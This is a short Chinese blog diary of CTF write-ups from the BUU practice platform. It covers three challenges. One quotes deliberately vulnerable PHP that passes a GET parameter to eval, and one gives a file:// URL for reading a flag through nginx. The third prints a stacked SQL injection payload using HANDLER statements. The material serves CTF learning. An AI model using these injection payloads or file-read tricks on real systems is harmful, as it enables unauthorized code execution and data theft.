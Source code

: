 ```yaml
---
layout: article
mathjax: true
tag: buu
---
```




# buu摸鱼日记（10）

## [GXYCTF2019]禁止套娃

一个简单的rce，之前没怎么接触过RCE，没做出来

首先niklo扫了下，发现是git泄露，于是乎直接拿到了源码

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

#### 无参数rce

[什么是无参数函数RCE](https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/#什么是无参数函数RCE)

其实就是一个远端执行php,类似于一句话那种

php data等伪协议都被ban了，呢么就直接执行就行了，这里利用PHPSESS_id来绕过那个bin2hex即可

## [SUCTF 2019]Pythonginx

审计源码挺草的，别的没什么

配置文件存放目录：/etc/nginx
主配置文件：/etc/nginx/conf/nginx.conf
管理脚本：/usr/lib64/systemd/system/nginx.service
模块：/usr/lisb64/nginx/modules
应用程序：/usr/sbin/nginx
程序默认存放位置：/usr/share/nginx/html
日志默认存放位置：/var/log/nginx
配置文件目录为：/usr/local/nginx/conf/nginx.conf



读取Nginx服务器的配置

\# location /flag {    #     alias /usr/fffffflag;    # } }

，用file协议去探路，然后穿个

file:////suctf.cc/usr/fffffflag

就拿到flag了

## [GYCTF2020]Blacklist

这个是强网杯的那个预编译的升级版，不过他连预编译也一起毙了

`HANDLER ... OPEN`语句打开一个表，使其可以使用后续`HANDLER ... READ`语句访问，该表对象未被其他会话共享，并且在会话调用`HANDLER ... CLOSE`或会话终止之前不会关闭

```sql
1';
HANDLER FlagHere OPEN;
HANDLER FlagHere READ FIRST;
HANDLER FlagHere CLOSE;#
```

